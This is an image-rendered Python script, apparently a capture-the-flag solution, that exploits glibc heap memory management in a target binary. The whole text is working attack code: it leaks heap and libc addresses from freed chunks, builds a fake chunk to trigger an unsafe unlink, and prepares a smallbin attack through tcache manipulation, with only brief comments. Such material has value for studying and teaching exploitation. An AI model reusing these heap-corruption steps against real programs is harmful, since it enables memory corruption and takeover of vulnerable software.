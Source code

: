 ```python
create(0, '0' * 0x217)
create(1, '1' * 0x217)

delete(0)
delete(1)

heap_addr = u64(show(1) + '\x00\x00') - 0x260

for i in xrange(5):
	create(0, '2' * 0x217)
	delete(0)

create(0, '2' * 0x217)
create(1, '3' * 0x217)
delete(0)

libc_addr = u64(show(0)+'\x00\x00') - 0x1e4ca0
print hex(heap_addr),hex(libc_addr)
delete(1)

punch() # consume 1 tcache
create(0, 'T' * 0x217)
delete(0)
edit(0, p64(0)*2)
delete(0)
# now top chunk + 0x10 == top elem in 0x220

for i in xrange(3):
	create(i, 'U' * 0x217)
for i in xrange(3):
	delete(i) # all merged to top

fake_chunk = p64(0) + p64(0x211)
fake_chunk += p64(heap_addr + 0x150 - 0x18)
fake_chunk += p64(heap_addr + 0x150 - 0x10)
fake_chunk = fake_chunk.ljust(0x210, 'F')
fake_chunk += p64(0x210) + p64(0x600)

create(0, cyclic(0x400))
edit(0, fake_chunk)
# 0x220 <- 0x200 top
# +0x1e0 <- g[2].ptr
create(2, cyclic(0x400))

# current heap layout:
# 0x400 chunk
# [fake 0x210 chunk + 0x600 chunk head, whose next is top]
# 0x400 chunk

delete(1) # unlink trigger, things merged to top

punch(p64(0x28))
# fake chunk_size for smallbin attack
# otherwise calloc will crash in memset

create(0, '7' * 0x217)
delete(0) # fill 0x220 tcache

# consolidate topchunk
for i in xrange(6):
	create(0, '4' * 0x1f0)
	delete(0)

```